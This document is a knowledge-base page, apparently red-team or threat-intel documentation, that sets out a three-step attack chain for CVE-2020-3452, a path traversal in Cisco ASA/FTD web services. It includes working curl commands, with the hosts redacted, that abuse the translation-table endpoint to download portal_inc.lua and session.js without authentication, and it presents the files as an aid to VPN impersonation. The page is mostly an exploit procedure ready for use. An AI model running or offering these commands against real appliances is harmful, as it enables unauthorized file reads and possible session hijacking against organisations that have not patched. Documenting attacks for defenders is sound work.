

---
tags:
  - path-traversal
  - cve-2020-3452
  - cisco-asa
  - file-read
  - vpn
type: attack_chain
tools:
  - '[[tools/curl]]'
  - '[[tools/Web-Browser]]'
tactics:
  - '[[Initial Access]]'
  - '[[Discovery]]'
verified: false
platforms:
  - Web
  - Cisco ASA
  - Cisco FTD
submitted: true
complexity: medium
created_at: '2023-10-01T00:00:00Z'
procedures:
  - '[[procedures/Exploit-Path-Traversal-in-Cisco-ASA-Translation-Endpoint]]'
step_count: 3
techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[File and Directory Discovery]]'
updated_at: '2025-12-14T17:26:06.374Z'
description: >-
  Multi-stage exploitation of CVE-2020-3452, a path traversal vulnerability in
  the Cisco ASA and FTD web services interface, allowing unauthenticated access
  to sensitive web files like Lua scripts and JavaScript for potential VPN
  impersonation.
skill_level: intermediate
impact_level: high
id: b2d41168-f804-4f73-a3b9-de87e22f593b
validated: true
mitre_tactics:
  - '[[Initial Access]]'
  - '[[Discovery]]'
mitre_techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[File and Directory Discovery]]'
---
# Read-Only Path Traversal in Cisco ASA Web Services to Access Sensitive VPN Files

Multi-stage attack chain demonstrating exploitation of CVE-2020-3452 to perform read-only path traversal on Cisco Adaptive Security Appliance (ASA) and Firepower Threat Defense (FTD) web services, enabling access to sensitive files such as Lua scripts and JavaScript used in VPN sessions.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 3 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/curl]]
- [[tools/Web-Browser]]

### Target Environment

- Cisco ASA Software or Cisco FTD Software with web services enabled
- Required services/ports: HTTPS (TCP/443) for WebVPN or AnyConnect
- Network access requirements: Direct internet access to the target's management or VPN interface

### Initial Access Requirements

- No credentials required (unauthenticated)
- Network position: External attacker with reachability to the web interface
- Prior access needed: None

## Detailed Attack Procedures

### Step 1: Trigger Path Traversal with Web Browser
procedure: [[procedures/Exploit-Path-Traversal-in-Cisco-ASA-Translation-Endpoint]]

**Objective**: Verify the vulnerability by navigating to the crafted URL and observing the file download prompt for a sensitive Lua script.

**Instructions**: Open a web browser and navigate to the vulnerable endpoint using directory traversal in the 'lang' parameter to access 'portal_inc.lua'. This step confirms the traversal works without authentication.

**Expected Output**: Browser prompts a download of a file named 'translation-table' containing the contents of 'portal_inc.lua'.

**Success Indicators**:
- Download prompt appears for the traversed file
- File contents reveal internal Lua script code related to VPN portal

### Step 2: Download Portal Inc Lua File via Curl
procedure: [[procedures/Exploit-Path-Traversal-in-Cisco-ASA-Translation-Endpoint]]

**Objective**: Use curl to fetch and save the sensitive 'portal_inc.lua' file, bypassing browser interactions for scripted exploitation.

**Instructions**: Execute [[commands/curl-download-portal-inc-lua]] to send the HTTP GET request with traversal parameters and save the response.

```bash
curl -k "https://███████/+CSCOT+/translation-table?type=mst&textdomain=/%2bCSCOE%2b/portal_inc.lua&default-language&lang=../" --output portal_inc.lua
```

Then, inspect the downloaded file for sensitive code snippets.

**Expected Output**: Binary data of 'portal_inc.lua' saved to the output file, containing Lua script for VPN portal functionality.

**Success Indicators**:
- File downloads without errors
- Contents include internal web services code, potentially revealing VPN session logic

### Step 3: Download Session JS File via Curl
procedure: [[procedures/Exploit-Path-Traversal-in-Cisco-ASA-Translation-Endpoint]]

**Objective**: Extend the exploitation to access another sensitive file like 'session.js' to gather more information on session management for potential impersonation.

**Instructions**: Modify the textdomain parameter in [[commands/curl-download-session-js]] to target the JS file while reusing the traversal technique.

```bash
curl -k "https://████████/+CSCOT+/translation-table?type=mst&textdomain=/%2bCSCOE%2b/session.js&default-language&lang=../" --output session.js
```

Analyze the file for JavaScript handling VPN sessions.

**Expected Output**: Binary data of 'session.js' saved, revealing client-side session logic.

**Success Indicators**:
- Successful download of JS file
- Exposure of session-related code that could aid in VPN user impersonation

## Attack Chain Summary

### Key Achievements

1. Unauthenticated access to web services file system via path traversal
2. Retrieval of sensitive Lua and JS files used in Clientless SSL VPN and AnyConnect
3. Potential for VPN impersonation without accessing core ASA/FTD system files

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]
- [[File and Directory Discovery]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Discovery]]

---
*Last updated: 2023-10-01T00:00:00Z*
